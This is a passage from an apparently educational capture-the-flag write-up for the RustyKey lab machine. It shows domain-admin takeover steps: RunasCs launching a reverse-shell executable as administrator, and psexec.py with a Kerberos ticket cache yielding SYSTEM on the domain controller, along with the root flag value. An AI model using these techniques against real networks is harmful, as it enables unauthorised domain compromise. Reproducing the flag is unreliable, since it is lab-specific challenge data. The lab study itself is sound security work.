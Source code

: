 ```sh
RUSTYKEY\Administrator:<snip>
```

And using the cracked password from secretsdump, or any million other way to get admin credentials/tickets with a domain admin:

Using more Runas for example, to spawn another reverse shell
```sh
./RunasCs.exe administrator '<snip>' 'C:\Windows\Temp\shell.exe'
PS C:\Windows\system32> whoami
whoami
rustykey\administrator
PS C:\Windows\system32> type ~/desktop/root.txt
type ~/desktop/root.txt
7009df001bb824b882b95d11b600ffaf
```

Or using psexec.py with the ccache:
```sh
 KRB5CCNAME=./admin.ccache psexec.py dc.rustykey.htb -k -no-pass
C:\Windows\Temp> whoami
nt authority\system
```

Finally the bloodhound review is as such:  

![alt text](../../../assets/images/ctf/events/season8-htb-25/2025-07-05-week7-rustykey.md/2025-07-05-week7-rustykey/images/image-4.png)  